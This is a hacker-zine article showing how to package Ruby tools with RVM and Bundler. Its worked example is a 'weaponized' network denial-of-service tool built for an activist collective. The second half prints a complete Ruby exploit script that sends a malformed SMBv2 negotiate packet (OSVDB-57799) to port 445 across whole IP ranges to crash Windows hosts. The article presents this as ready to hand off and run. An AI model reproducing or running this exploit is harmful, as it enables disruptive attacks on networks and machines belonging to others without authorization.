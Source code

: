 ﻿---
layout: default
title: "Hack This Zine #10 article - Delivering Weaponized Exploits with Ronin, RVM, and Bundler with evoltech and postmodern"
---

# Hack This Zine #10 article - Delivering weaponized exploits with Ronin, RVM, and Bundler

One of the challenges I have found when developing with ruby has been with configuring my ruby development environment.  Trying to get the right version of ruby installed then all of the required gems only to find out that I need to upgrade my copy of ruby gems which is not supported by my OS packaging system. Postmodern turned me onto rvm [1] and bundler [2] which has been a revelation similar to the discovery of yum and apt-get after manually managing rpm and dpkg dependencies by hand.  There is some overlapping functionality in rvm and bundler, but they can be used together to prevent you from having to install a specific ruby environment from scratch, and provides a simple way to specify application dependencies for development and deployment.

Consider the following scenario.  You and your tech collective have been tasked with providing a weaponized tool capable DOSing a windows network in solidarity with some general strike.  The requirements of the tool are that it is simple to use, requires running only a few commands, and requires no manual intervention once running.  Your group decides to implement the tool in ruby leveraging the ronin environment.  The group has access to its own custom ronin overlays, and custom ruby libraries which are not publicly published, as well as all of the other public ruby libraries which are published. After  finishing the app your group needs a simple way to package it all up and send it off to the folk who requested the tool.  This can be done easily with rvm and bundler.  The included Readme.txt sent to your allies may look something like this:

Install a Ruby 1.9.1 environment with rvm (pay attention to any notes on
modifying your .bashrc here):

        $ bash < <( curl http://rvm.beginrescueend.com/releases/rvm-install-head )
        $ exec ~/.bashrc
        $ rvm install 1.9.1 ; rvm 1.9.1
        $ gem install bundler

Pull down the code for the netDOS app (contents of this are described below)
        # Note: no one but your tech-collective and client has access to this repo.

        $ git clone git://your.sketchy.crew.org/netDos.git
        $ cd netDos

Install the dependencies for the netDOS app:

        $ bundle install

Run netDos:

        $ ./netDos 10.1.1.1/24

To make achieve this level of ease all the team had to do is specify the specific dependencies for netDOS in a file called `Gemfile` in the apps main directory that references the specific version of the libraries used, optionally with a path to a source location.  ie:

        $ cat Gemfile
        source :gemcutter
        gem 'open_namespace', '~> 0.3.0'
        gem 'dm-core', '~> 0.10.0'
        gem 'ronin', '~> 0.4.0', :git =>'http://github.com/ronin-ruby/ronin.git'
        gem 'ronin-support', '~> 0.1.0', :git =>'http://github.com/ronin-ruby/ronin-support.git'

Then roll it up for deployment with (saving all dependencies in your app's main directory under vendor/cache):
        $ bundle package

A quick look through recent vulnerabilities brings you to a likely match from OSVDB-57799 [3] which describes a flaw in the SMBv2 that can trigger a dereference 
to an out of bound memory area.  And bonus for you (cause you have been working late nights and all your get for all this activisty work is dumpstered bagels) someone already wrote a proof of concept [4].  All you have to do is weaponize it for your clients target [5]:

{% highlight ruby %}
#!/usr/bin/env ruby
require 'ronin/extensions/ip_addr'
require 'ronin/network/tcp'

payload = [
  "\x00\x00\x00\x90", # Begin SMB header: Session message
  "\xff\x53\x4d\x42", # Server Component: SMB
  "\x72\x00\x00\x00", # Negociate Protocol
  "\x00\x18\x53\xc8", # Operation 0x18 & sub 0xc853
  "\x00\x26", # Process ID High: --> :) normal value should be "\x00\x00"
  "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xfe",
  "\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\x45\x54",
  "\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\x20\x31",
  "\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\x30\x00",
  "\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\x20\x57",
  "\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\x31\x61",
  "\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\x02\x4c",
  "\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\x20\x4c",
  "\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\x32\x2e",
  "\x30\x30\x32\x00"
].join

unless ARGV.length > 0
  puts "usage: [IPv4 | IPv6 | CIDR Range | Globbed Range] ..."
  puts "examples:"
  puts " #{$0} 10.1.1.1"
  puts " #{$0} 10.1.1.1/24"
  puts " #{$0} 10.1.*.1-5"
  exit -1
end 

ARGV.each do |range|
  IPAddr.each(range) do |ip|
    begin
      puts "[-] Sending SMB payload to #{ip} ..."
      Net.tcp_connect_and_send(payload,ip,445)
    rescue
      puts "[!] Skipping #{ip}"
      next
    end
  end
end
{% endhighlight %}

This file would be included in the repo with the Gemfile as well as the 
Gemfile.lock, and all of the files installed in vendor/cache after running `bundle package`.  Then finish the night by sending off an email with the simple instructions above to your friends, grab beverage of your choice, and head down to the tracks to enjoy the rest of your evening.

[1] RVM - Ruby Version Manager http://rvm.beginrescueend.com/

[2] Bundler is a tool that manages gem dependencies for your ruby application. It takes a gem manifest file and is able to fetch, download, and install the gems and all child dependencies specified in this manifest. It can manage any update to the gem manifest file and update the bundle's gems accordingly. It also lets you run any ruby code in context of the bundle's gem environment.
http://github.com/carlhuda/bundler/blob/master/README.md

[3] OSVDB-57799 'Microsoft Windows srv2.sys Kernel Driver SMB2 Malformed 
NEGOTIATE PROTOCOL REQUEST Remote DoS' : http://osvdb.org/57799

[4] OSVDB-57799 proof of concept by Laurent Gaffié : 
http://g-laurent.blogspot.com/2009/09/windows-vista7-smb20-negotiate-protocol.html

[5] Weaponized OSVDB-57799 written by postmodern: http://gist.github.com/183261
